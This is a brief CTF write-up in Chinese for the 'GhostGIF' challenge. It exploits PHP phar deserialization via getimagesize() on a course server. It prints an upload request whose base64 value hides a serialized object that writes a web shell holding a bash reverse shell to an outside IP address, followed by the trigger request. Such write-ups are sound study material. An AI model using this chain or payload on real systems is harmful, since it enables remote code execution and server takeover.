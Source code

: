 #GhostGIF
這題只能上傳 gif ，且題目說要反序列化，反序列化在 `getimagesize($name)`
在 php 中參數給 phar:// ，會把檔案當成 phar 文件並反序列化 metadata
先透過 create.php 建立 phar 檔案，其中要把 phar readonly 關掉
`/etc/php/7.2/cli/php.ini` 中把 `;phar.readonly = On` 改成 `;phar.readonly = Off`
`cat phar.phar | base64 -w 0` 去拿到 base64
然後上傳
```
https://edu-ctf.csie.org:10164//?action[]=upload
post:
c=R0lGODlhPD9waHAgX19IQUxUX0NPTVBJTEVSKCk7ID8+DQrpAAAAAQAAABEAAAABAAAAAACzAAAATzoxMToiRmlsZU1hbmFnZXIiOjM6e3M6NDoibW9kZSI7czo2OiJ1cGxvYWQiO3M6NDoibmFtZSI7czozMDoiL3Zhci93d3cvaHRtbC91cGxvYWRzL3l1YW4ucGhwIjtzOjc6ImNvbnRlbnQiO3M6NjE6Ijw/cGhwIHN5c3RlbSgiYmFzaCAtaSA+JiAvZGV2L3RjcC8xNDAuMTEzLjIwOS4yOC81NTY2IDA+JjEiKTsiO30IAAAAdGVzdC50eHQEAAAAE9cBXgQAAAAMfn/YpAEAAAAAAAB0ZXN0VQ7QXPTxxBq/2Xhvwdnkm0X0bI0CAAAAR0JNQg==
```
然後會拿到圖片的名稱去 getimagesize
```
https://edu-ctf.csie.org:10164/?action[]=getsize
post:
f=phar:///var/www/html/uploads/4028582915e01d7461e4675.60816068.gif
```
成功會 call __destruct() 並把 webshell 寫入
之後就能 rce 了
```
/uploads/yuan.php
```
